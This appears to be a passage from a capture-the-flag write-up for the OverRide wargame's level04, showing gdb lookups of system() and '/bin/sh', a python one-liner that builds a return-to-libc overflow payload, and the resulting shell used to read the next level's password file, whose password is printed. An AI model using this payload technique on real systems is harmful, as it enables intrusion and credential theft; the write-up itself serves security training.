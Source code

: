 offset : 156


(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system, +99999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.


python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\xd0\xae\xe6\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload

```
level04@OverRide:~$ cat /tmp/payload - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass	
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```